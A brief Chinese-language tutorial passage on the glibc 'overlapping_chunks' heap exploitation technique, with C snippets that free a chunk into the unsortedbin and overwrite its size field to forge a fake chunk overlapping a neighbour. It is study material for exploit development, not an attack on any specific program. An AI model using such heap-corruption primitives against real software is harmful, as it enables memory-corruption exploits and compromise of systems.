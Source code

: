 ## overlapping_chunks

也是通过伪造块来得到重叠部分

分配三块内存

```c
intptr_t *p1,*p2,*p3;

p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
```

free掉chunk p2，进入 unsortedbin

```c
free(p2);
```

```
unsortedbin
all: 0x603100 —▸ 0x7ffff7dd4b58 (main_arena+88) ◂— 0x603100
```

对假设存在溢出点，对 chunk p2 的 chunk size 进行改写来达到构造 fake chunk 的目的

```c
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
	
*(p2-1) = evil_chunk_size;
```

构造好 fake chunk 以后再malloc（evil_chunk_size）大小的 chunk ，就会得到这个 fake chunk 了，此时 p2 与 p3 存在重叠部分